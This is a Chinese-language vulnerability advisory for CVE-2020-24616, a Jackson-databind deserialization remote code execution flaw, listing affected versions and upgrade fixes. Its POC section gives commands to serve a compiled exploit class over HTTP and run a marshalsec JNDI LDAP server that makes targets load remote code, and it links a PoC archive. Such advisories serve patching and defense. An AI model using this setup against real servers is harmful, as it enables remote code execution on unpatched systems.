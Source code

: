 ```yaml
---
title: 'Jackson反序列化远程代码执行 CVE-2020-24616'
date: Sat, 19 Sep 2020 07:49:40 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 漏洞描述

FasterXML Jackson发布了新的高危漏洞（漏洞编号：CVE-2020-24616），其官方团队发布了 jackson-databind 的新版本 2.9.10.6，其中修复了几个反序列化漏洞。 FasterXML Jackson是美国FasterXML公司的一款适用于Java的数据处理工具。jackson-databind是其中的一个具有数据绑定功能的组件。 FasterXML jackson-databind 2.9.10.6之前的版本中存在安全漏洞，该漏洞源于不安全的反序列化。远程攻击者可通过精心构造的恶意载荷利用该漏洞在系统执行任意代码。

#### 影响版本

jackson-databind < 2.9.10.6

#### 安全版本

jackson-databind 2.9.10.6 jackson-databind 2.10

#### 漏洞修复

1.建议用户将jackson-databind组件升级到安全版本。 https://github.com/FasterXML/jackson-databind/releases 2.在Jackson 2.10 中引入了Safe Default Typing白名单机制，可杜绝此类gadget的影响。

#### POC

把编译好的exploit.class放置在服务端 开启HTTP服务```
python3 -m http.server 8888 
```或者tomcat都行 启动LDAP```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer “http://x.x.x.x(服务端Ip):8888/#Exploit” 9999 
```PS:poc中的端口号要和LDAP的对应 本地运行javaPOC ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/ttt-1.png) [cve-2020-24616-poc-master](https://www.bylibrary.cn/wp-content/uploads/2020/09/cve-2020-24616-poc-master.zip)